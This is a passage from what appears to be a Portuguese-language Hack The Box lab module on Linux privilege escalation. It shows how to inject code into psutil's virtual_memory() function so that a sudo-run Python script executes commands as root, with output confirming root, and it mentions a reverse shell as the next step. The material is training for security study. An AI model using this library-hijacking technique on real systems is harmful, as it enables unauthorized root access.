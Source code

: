 Esta é a parte da biblioteca onde podemos inserir nosso código. É recomendado colocá-lo logo no início da função. Lá podemos inserir tudo o que consideramos correto e eficaz.

Podemos importar o módulo `os` para fins de teste, o que nos permite executar comandos do sistema. Com isso, podemos inserir o comando `id` e verificar durante a execução do script se o código inserido é executado.

#### Conteúdo do módulo - Sequestro
```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

Agora podemos executar o script `sudo` e verificar se obtemos o resultado desejado.

#### Escalação de privilégios
```shell-session
htb-student@lpenix:~$ sudo /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%
```

Sucesso. Como podemos ver no resultado acima, conseguimos sequestrar a biblioteca com sucesso e ter nosso código dentro da função `virtual_memory()` executado como `root`. Agora que temos o resultado desejado, podemos editar a biblioteca novamente, mas, dessa vez, inserir um shell reverso que se conecta ao nosso host como `root`.

## Caminho da Biblioteca

Em Python, cada versão tem uma ordem especificada na qual as bibliotecas ( `modules`) são pesquisadas e importadas. A ordem na qual o Python importa `modules`é baseada em um sistema de prioridade, o que significa que os caminhos mais altos na lista têm prioridade sobre os mais baixos na lista. Podemos ver isso emitindo o seguinte comando:

#### Listagem PYTHONPATH
```shell-session
htb-student@lpenix:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```
